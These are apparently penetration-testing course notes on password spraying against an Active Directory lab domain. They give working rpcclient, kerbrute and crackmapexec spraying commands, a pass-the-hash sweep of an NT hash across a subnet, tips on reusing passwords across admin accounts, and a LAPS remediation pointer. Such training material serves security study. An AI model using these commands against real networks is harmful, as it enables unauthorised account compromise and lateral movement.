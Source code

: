 # Internal Password Spraying - from Linux
## Internal Password Spraying from a Linux Host

```bash
# Using a Bash one-liner for the Attack
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <DC-IP> | grep Authority; done
  # find : Account Name: tjohnson, Authority Name: INLANEFREIGHT

# Using Kerbrute for the Attack
kerbrute passwordspray -d inlanefreight.local --dc <DC-IP> valid_users.txt  Welcome1

# Using CrackMapExec & Filtering Logon Failures
sudo crackmapexec smb <DC-IP> -u valid_users.txt -p Password123 --continue-on-success | grep +
```

## Local Administrator Password Reuse


- If you obtain **administrative** access and the **NTLM password hash or cleartext password** for the local administrator account (**or another privileged local account**), this can be **attempted across multiple hosts in the network.** 
- If we find a **desktop host** (workstation host) with the **local administrator account** password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. 
- if we find **non-standard local administrator accounts** such as `bsmith`, we may find that the **password is reused** for a **similarly named domain user account**
-  If we retrieve the password for a **domain user** `ajones`, it is worth trying the **same password** on their **domain admin account** (if the user has one), it cloud be like `ajones_adm`(**privileged domain user**)
- We may obtain valid credentials for a **user in domain A** that are valid for a user with the same or similar username in **domain B**
- It is worth targeting high-value hosts such as **SQL or Microsoft Exchange servers**, as they are more likely to have a highly privileged **user logged** in or have their **credentials persistent in memory**.




 if we retrieve the NTLM hash for the l**ocal administrator account** from the local SAM database. In these instances, we can **spray the NT hash across an entire subnet** (or multiple subnets) to hunt for **local administrator accounts with the same password set**.
```bash
#### Local Admin Spraying with CrackMapExec
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

>This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.
>One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.


